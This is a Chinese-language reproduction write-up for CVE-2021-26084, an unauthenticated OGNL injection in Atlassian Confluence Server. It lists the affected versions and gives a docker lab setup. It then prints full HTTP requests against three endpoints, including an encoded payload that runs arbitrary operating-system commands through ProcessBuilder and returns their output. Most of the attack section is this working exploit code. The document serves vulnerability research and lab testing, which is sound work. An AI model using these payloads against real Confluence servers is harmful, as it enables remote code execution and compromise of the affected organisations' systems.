

# CVE-2021-26084

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Confluence Server Webwork OGNL 注入


## 0x01 产品简介

Confluence 是由澳大利亚软件公司 Atlassian 开发的基于 Web 的企业 Wiki。

存在一个 OGNL 注入漏洞，该漏洞允许未经身份验证的攻击者在 Confluence Server 或 Data Center 实例上执行任意代码。

## 0x02 影响范围

```
All 4.x.x versions
All 5.x.x versions
All 6.0.x versions
All 6.1.x versions
All 6.2.x versions
All 6.3.x versions
All 6.4.x versions
All 6.5.x versions
All 6.6.x versions
All 6.7.x versions
All 6.8.x versions
All 6.9.x versions
All 6.10.x versions
All 6.11.x versions
All 6.12.x versions
All 6.13.x versions before 6.13.23
All 6.14.x versions
All 6.15.x versions
All 7.0.x versions
All 7.1.x versions
All 7.2.x versions
All 7.3.x versions
All 7.4.x versions before 7.4.11
All 7.5.x versions
All 7.6.x versions
All 7.7.x versions
All 7.8.x versions
All 7.9.x versions
All 7.10.x versions
All 7.11.x versions before 7.11.6
All 7.12.x versions before 7.12.5
```

## 0x03 环境搭建

执行以下命令以启动 Confluence Server 7.4.10：

```
docker compose up -d
```

环境启动后，访问 [http://your-ip:8090](http://your-ip:8090/)，您将看到安装指南，选择“试用安装”，然后会要求您填写许可证密钥。您应该向 Atlassian 申请 Confluence Server 测试证书。

在数据库配置页面上，填写数据库地址 db、数据库名称 confluence、用户名 postgres、密码 postgres。



## 0x04 漏洞复现

有多个 API 端点受到此漏洞的影响。

### API端点一：/pages/doenterpagevariables.action

这是一个未授权漏洞，执行 233*233：

```
POST /pages/doenterpagevariables.action HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```


执行任意命令：

```
queryString=%5cu0027%2b%7bClass.forName%28%5cu0027javax.script.ScriptEngineManager%5cu0027%29.newInstance%28%29.getEngineByName%28%5cu0027JavaScript%5cu0027%29.%5cu0065val%28%5cu0027var+isWin+%3d+java.lang.System.getProperty%28%5cu0022os.name%5cu0022%29.toLowerCase%28%29.contains%28%5cu0022win%5cu0022%29%3b+var+cmd+%3d+new+java.lang.String%28%5cu0022id%5cu0022%29%3bvar+p+%3d+new+java.lang.ProcessBuilder%28%29%3b+if%28isWin%29%7bp.command%28%5cu0022cmd.exe%5cu0022%2c+%5cu0022%2fc%5cu0022%2c+cmd%29%3b+%7d+else%7bp.command%28%5cu0022bash%5cu0022%2c+%5cu0022-c%5cu0022%2c+cmd%29%3b+%7dp.redirectErrorStream%28true%29%3b+var+process%3d+p.start%28%29%3b+var+inputStreamReader+%3d+new+java.io.InputStreamReader%28process.getInputStream%28%29%29%3b+var+bufferedReader+%3d+new+java.io.BufferedReader%28inputStreamReader%29%3b+var+line+%3d+%5cu0022%5cu0022%3b+var+output+%3d+%5cu0022%5cu0022%3b+while%28%28line+%3d+bufferedReader.readLine%28%29%29+%21%3d+null%29%7boutput+%3d+output+%2b+line+%2b+java.lang.Character.toString%2810%29%3b+%7d%5cu0027%29%7d%2b%5cu0027
```

### API端点二：/pages/createpage-entervariables.action

未授权漏洞：

```
POST /pages/createpage-entervariables.action HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```

### API端点三：/pages/createpage.action

此漏洞需要用户权限才能创建页面：

```
GET /pages/createpage.action?spaceKey=EX&src=quick-create&queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027 HTTP/1.1
Host: 192.168.1.162:8090
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.162:8090/template/custom/content-editor.vm
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: JSESSIONID=7B35600F54A9E303CE8C277ED960E1E7; seraph.confluence=524289%3A2ac32a308478b9cb9f0e351a12470faa4f2a928a
Connection: close

```